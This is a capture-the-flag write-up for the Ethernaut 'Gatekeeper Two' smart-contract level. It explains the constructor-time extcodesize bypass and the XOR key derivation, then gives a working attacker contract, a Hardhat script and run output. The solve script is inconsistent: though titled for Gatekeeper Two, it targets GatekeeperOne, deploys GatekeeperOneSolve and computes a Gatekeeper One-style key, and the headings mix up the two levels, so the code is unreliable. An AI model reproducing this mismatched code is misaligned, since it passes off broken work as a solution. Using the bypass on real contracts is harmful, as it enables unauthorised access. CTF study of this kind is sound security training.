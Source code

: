 ```yaml
---
title: Ethernaut #14 Gatekeeper Two
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper Two challenge writeup
---
```


## Gatekeeper Two

### Challenge

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
* The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is somewhat similar to `GatekeeperOne`. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge.

The `extcodesize` bytecode returns (pushes onto the stack) the size of the contract it got as an argument (poped from the stack). According to the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf) section 7, page 11, footnote 5, 

> During initialization code execution, EXTCODESIZE on the address should return zero...

This will be very useful in order to bypass the second modifier.

The `keccack` function is the hash function used on the ethereum blockchain.


### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `extcodesize` needs to return a value of `0`. As discussed already, this can be achieved if the caller code (in this case the attacker controlled contract), is executed during its initialization (`constructor` execution). Finally the last `modifier` requires the a simple `boolean` equation to be satisfied. This operation is very easy to reverse since its just an `XOR` (`^`) operator. 

* Create a contract that calls the `GatekeeperOne` `enter` function during the `constructor` execution
* To calculate the `_gateKey` to provide simply re-arranging the check to `_gateKey = (uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))))`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperTwo.sol';

contract GatekeeperTwoSolve {

    constructor(address payable _gatekeeperTwoAddress) public {
        GatekeeperTwo gatekeeperTwoContrtact = GatekeeperTwo(_gatekeeperTwoAddress);
        bytes8 gateKey = bytes8((uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))));
        gatekeeperTwoContrtact.enter(gateKey);
    }

}
```


#### gatekeeper-two-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/gatekeeper-two-solve.js --network rinkeby
Compiled 1 Solidity file successfully
Initial entrant: 0x0000000000000000000000000000000000000000
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).

(unfortunately by the time I was done with this the 128 spots were already filled)
